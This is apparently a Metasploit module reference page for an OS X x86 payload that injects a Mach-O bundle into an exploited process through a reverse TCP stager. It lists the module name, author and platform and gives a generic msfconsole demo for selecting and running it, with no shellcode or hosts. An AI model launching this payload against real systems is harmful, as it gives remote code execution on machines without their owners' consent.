 ## Mac OS X Inject Mach-O Bundle, Reverse TCP Stager

Inject a custom Mach-O bundle into the exploited process. 
Connect, read length, read buffer, execute


## Module Name
payload/osx/x86/bundleinject/reverse_tcp

## Authors
* ddz





## Platforms
* osx

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/osx/x86/bundleinject/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    